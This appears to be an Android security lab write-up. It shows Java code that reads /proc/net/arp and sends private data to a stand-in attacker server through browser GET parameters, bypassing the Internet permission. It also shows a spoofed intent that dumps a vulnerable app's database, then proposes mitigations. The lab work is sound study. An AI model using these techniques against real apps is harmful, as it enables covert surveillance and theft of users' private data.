

# 1 - No-permission apps

In this part, we will exfiltrate private data to a server, without using
the `Internet` permission.

First, we need to setup a web server. Here, it is a localhost server
running on port 3001, so its address is `10.0.2.2:3001` on the emulated
device.

When we want to exfiltrate the data, we just have to create an intent to
open our server webpage with GET parameters, like
`http://10.0.2.2:3001/?key1=secret1&key2=secret2`.

By default, without any permissions it seems like there are not many
ways to get informations about the user. However, using some public
Android APIs or Linux files, a lot of informations can be extracted. For
example, the list of all installed packages is public, and while this
seems harmless it can give hints about the user's sexuality (if Grindr
or other specific dating apps are installed), its health if some diabete
or weight loss apps are found, what bank is being used, etc.
Some informations can also be found in Linux files, like the CPU model
or the amount of RAM to get the device model, or some network
informations. Some of these files and directories are `/sys/class/net/`,
`/proc/net/tpc`, `/proc/net/arp`, `/proc/cpuinfo`, `/proc/meminfo`, etc.

These files are accessible by anyone due to the nature of Android,
being based on a Linux kernel. Additionally, commands like `ps` can
expose running tasks. The audio manager can also leak some critical
information with the right method, which is the position and the driving
route of the user. Finally, the data usage of apps can also be used,
which can hint with some external informations about the user profile on
a social network like Facebook, where the frequency (or lack) of
activity can show some user pattern. These informations are sensitive
because they can expose some user data or identify it without requiring
special privileges or permissions. Some public resources are usually
found in the `/sys` and `/proc` Linux directories, but not all files
have public read access.

On android and iOS, apps are sandboxed and heavily restricted, as
opposed to desktop apps. If an app wants to access a private resource
(camera, location, etc), it needs to be explicitely allowed to do so by
the OS and the user. The goal is to make these apps as secure and as
privacy-aware as possible. While on desktop all applications are
unrestricted and could access all user files with r/w permissions, on
android even a vulnerable app is limited in its action. it also hints on
illegitimate apps; for examle, the flashlight app shouldn't require
microphone access. The goal of these permissions is to add boundaries to
apps, which greatly reduce the risks to the user.

Permissions are defined in a special file, the Android manifest of the
app. This file will describe all meta-informations about the app, like
which activities are public, what resources the app should use for its
icon, and more important here what permissions are used. In the
following example, an app is requiring the internet permission. Some
permissions aren't necessarily granted though, like the microphone one.
While it needs to be declared, the user can still decide to disable it.

```xml
<uses-permission android:name="android.permission.INTERNET" />
```

However, here our application uses a simple trick to bypass this
permission system. It will open the web browser on a specific page, and
while it usually is quite innocent since the webpage cannot talk back to
the app, it is enough to leak informations using GET parameters. It
should be noted however that, first, the data accessible is only our own
data, which limits the damages possible, and that this method isn't very
discreet, as the user clearly sees its browser opening.

The code used is the following one to exfiltrate the data:

```java
// This will be our URL like http://10.0.2.2:3001/?key1=secret1&key2=secret2
StringBuilder evilRequest = new StringBuilder("/?");
for (Item item : mItemsData) {
	// Add each item to the exfiltration URL
	evilRequest
		.append(Uri.encode(item.getTitle()))
		.append("=")
		.append(Uri.encode(item.getInfo()))
		.append("&");
}
// Create the intent to open the browser
Intent intent = new Intent(
	Intent.ACTION_VIEW,
	Uri.parse(url + evilRequest)
);
if (intent.resolveActivity(getPackageManager()) != null) {
	// Start the intent if an an app is able to handle it
	startActivity(intent);
}
```

And to get private informations:

```java
StringBuilder content = new StringBuilder();
Process p = Runtime.getRuntime().exec("cat /proc/net/arp");
BufferedReader reader = new BufferedReader(
	new InputStreamReader(p.getInputStream())
);
String line;
while ((line = reader.readLine()) != null) {
	content.append(line).append("\n");
}
mItemsData.add(new Item(
	"arp",
	content.toString()
));
```

The database's content looks like, for example:



# 2 - Malicious intents

In the MACLocation app, the `DatabaseActivity.onCreate` method will, as
its name suggests, create the app. It will look at the caller intent and
act differently depending on its action. Here, if the field
`"ITEM_ACTION"` is set to `"GET_ITEMS_ACTION"`, it will retrieve all
database content and send it back to the caller.

The problem is that if a third-party app opens this activity with the
right action, the activity won't check which app the intent is coming
from and will exfiltrate all its database to the external app through
the result intent.

The malicious intent code is the following one:

```java
// Activity intent
Intent i = new Intent(Intent.ACTION_MAIN);
// Explicitely set the component that will receive the intent
i.setComponent(new ComponentName(
	"lbs.lab.maclocation", // Target package
	"lbs.lab.maclocation.DatabaseActivity" // Target activity
));
// MIME data type, equal to `DatabaseActivity.class.getCanonicalName()`
//  Used to trick the DatabaseActivity condition
i.setType("lbs.lab.maclocation.DatabaseActivity");
// Action, here fetch all data, but could also be SET_ITEMS_ACTION to
//  override the database content
i.putExtra(ITEM_ACTION, GET_ITEMS_ACTION);
```

Once the data retrieved, we need to deserialize it by creating our own
implementation of `lbs.lab.maclocation.Item`, and then exfiltrate it
like we did previously in the first part. To find which class to
recreate, we need to look at the logs when trying to deserialize the
object. We get a `ClassNotFoundException` that will then hint us on
which class isn't found, by logging something like `the class
lbs.lab.maclocation.Item cannot be found`. We now know which class we
need to write.

There are currently a few checks in `DatabaseActivity`:
- The MIME data type should be set to
`"lbs.lab.maclocation.DatabaseActivity"`, which is easy to set
- The `"ITEM_ACTION"` field should be set to `"GET_ITEMS_ACTION"`, again
we could guess it using the source code or a decompiler
- The caller activity should be named `MainActivity`, easy to spoof

This last check is the one which should be changed in order to fix this
vulnerability. Instead of checking the value of `getShortClassName()` to
compare the activity names, it should use `getClassName()`, that will
differentiate `lbs.lab.maclocation.MainActivity` and
`lbs.lab.macintent.MainActivity`.

Moreover, in the Android manifest, `DatabaseActivity` is wrongly marked
as `exported`, which makes it accessible to any third-party app through
an intent.

# 3 - Protections and mitigations

There could be several ways to protect against these threats, on several
levels.

On a more general note though, explicit intents should be avoided and
should even maybe be completely discarded. Apps should pass through an
app chooser and not hardwire the target in the source code, which is
error prone and can lead to several attacks like we saw previously.

For both parts, a more general solution could be the transition to a
capability-based kernel, where the capability / key is an unforgeable
token of authority refering to a list of rights and permissions. These
confused deputy problems would then be no more, sicne if an app A calls
an app B, B would use A's token and then the operation would be refused
at the kernel level, while currently A uses B's identity to do some
actions.

## 3.1 - Against permission escape: part 1

First, the Android API could implement permissions per intent, not per
app. If an app A calls an app B, and B has the internet permission but
not A, A is still able to access internet through B. However, a defense
would be for the intent from A to B to require some kind of permission,
which would force A to declare the internet permission. This would still
be pretty challenging though, as we need to be sure which permissions
are used, otherwise if B suddently adds the camera permission it would
break A even though it doesn't use it.

The solution above could also be completed using a stacktrace of chained
events, to avoid the confused app B to send a third intent that will
look legitimate for the third (or same) app.

Some Linux files that currently are public shouldn't be anymore on
Android, and should be then restricted. Granted, this is easy to say,
since it would require more parts of the Linux kernel to be rewritten
for Android. For example, the MAC address of a wireless point is public,
and while this isn't a big deal for a workstation it is quite
problematic for a smartphone, possibly leading to guessing the location
of the device knowing enough MAC addresses. Indeed, there are public
databases of all MAC addresses, like the website WiGLE which publicly
lists more than 500 million networks. Other example, the `ps` command
will clearly show what app is being used, which can again give
informations about someone's behavour. But yes, apps should have a
different set of Linux permissions.

It could be argued that the list of all applications could also be set
to private at the Android API level, although it would definitely break
some legitimate use case since this isn't a niche feature but a fairly
common one. Otherwise, apps could set themselves to "private", so
regular apps like social networks or games would still be listed but not
more critical ones.

The ability to execute system commands like `ls` or `cat` through
`Runtime.getRuntime().exec` should be completely removed, as it is
possibly a pretty big vulnerability vector.

For information related to usage and packets amount send / received, an
approximation could be given to avoid detecting patterns through time.

## 3.2 - Against data leak: part 2

A way to avoid data leak would be to somehow track the data from B to A.
If the data of B is leaked back to A without a kind of approval, then
the data would be made unusable by the system. This is still a rough
idea though, as this would probably lead to many challenge to face.

Maybe we could also rank the data importance, like the information flow
security lectures we had. A high (important) app would only be able to
share its data to other high apps, and low apps would not be able to
fetch this high data. Or, to continue with data tracking, low apps could
be allowed as long as there isn't an information flow from high data to
low data, ie the data use would be severely restricted. Some tools exist
in "regular" Java, like Jif, or in other languages (JSFlow, LIO, etc),
and some are specially for Android, like TaintDroid, an architecture
within Android working alongside the Dalvik virtual machine to implement
a "taint map" at the memory level. This however obviously requires a
custom firmware, since it modifies the system at a low level.

Related to this suggestion, critical informations related to banking or
health for example should probably be locked behind a password, such
that any legitimate intent would have this token in memory while
external explicit intents wouldn't be able to unlock the data. It goes
without saying that critical activities should also not be publicly
exposed in the Android manifest. This is technically a recommandation,
and cannot realistically be made mandatory by the platform, since it
would be pretty hard to differentiate critical and legit information
programmatically.

Intents could also use a kind of signature, to avoid spoofing its
origin. This is already something that can - and should - be done, but
the Android kernel should go even further. What we saw earlier is that
to deserialize the data fetched we needed to create our own
implementation of the data object. This shouldn't be allowed, and a
serialized object should only be deserializable by the implementation
in its own app, not by any third-party app, even if the implementation
is the same.
